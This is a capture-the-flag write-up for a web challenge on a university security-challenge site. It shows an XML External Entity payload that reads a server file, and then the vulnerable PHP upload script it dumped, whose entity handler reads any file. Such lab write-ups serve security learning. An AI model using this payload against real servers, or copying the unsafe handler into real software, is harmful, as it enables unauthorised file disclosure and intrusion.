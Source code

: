 # Manual for the apocalypse

- Stopping the apocalypse part 2
- easy

ACME Inc? Anti-apocalypse machines?

That sounds interesting, maybe you could get the manual for the machine that could help you understand how it works and build your own. The wastes could be saved. Time to get the manual.

As you proceed to fetch the manual for the machine you wandered into the headquarters of ACME Inc. There you find a machine that handles the manuals for their products. Unfortunately, it asks for a license number, but you don't have that. But you need to get that manual. DO YOUR THING!

https://manual-for-the-apocalypse.secchallenge.crysys.hu

author: Pepe

## Writeup

The page asks to upload an XML license file with an entity named `licenseNumber`. 

XML reminds me of XML External entities attack witch I've heard of before, so I've tried that. 

After a few tries I was able to dump the upload script:
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE licenseNumber [  
  <!ELEMENT licenseNumber ANY >
  <!ENTITY licenseNumber SYSTEM "file:///var/www/html/upload.php" >]>
<licenseNumber>l="&licenseNumber;"</licenseNumber>
```

```php
<?php

$licenseNumber = null;

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
    header($_SERVER["SERVER_PROTOCOL"]." 405 Method Not Allowed", true, 405);
    exit();
}

$parser=xml_parser_create();

function char($parser,$data) {
    echo $data;
}

function ext_ent_handler($parser,$ent,$base,$sysID,$pubID)  {
    global $licenseNumber;
    if ($ent === 'licenseNumber') {
        $licenseNumber = file_get_contents($sysID);
    }
}

// Set the character data handler
xml_set_character_data_handler($parser,"char");

// Set the external entity reference handler
xml_set_external_entity_ref_handler($parser, "ext_ent_handler");

$data = file_get_contents($_FILES["file"]["tmp_name"]);
$flag = file_get_contents("very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]/flag");

xml_parse($parser,$data);
xml_parser_free($parser);

if ($licenseNumber === null) {
    $message = "No entity named licenseNumber in your file.";
}
else if ($licenseNumber === "gsYUhmeBg4bSNsNAf6bHYmOZmaViO9GTgApGlxFkUJC4O1NVdU1y4eOSOm9TjPjAdy38KUdgmTaAgoFH4mfhsuQIFv64UMb872pVscQgCNgSgpIFOzgQWYzy17CwCEmq") {
    $message = "Your license number is: \n$licenseNumber. \nThis is a valid license here is your flag. $flag";
}
else {
    $message = "Your license number is: \n$licenseNumber\n. This is an invalid license please submit a valid one for the manuals.";
}

$message = base64_encode($message);
echo $message;
```

Well that is easy from now. I could make a "valid" license number, or use the now known path to read the flag, but the simplest solution was just navigating to `https://manual-for-the-apocalypse.secchallenge.crysys.hu/very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]/flag` and read it from there.

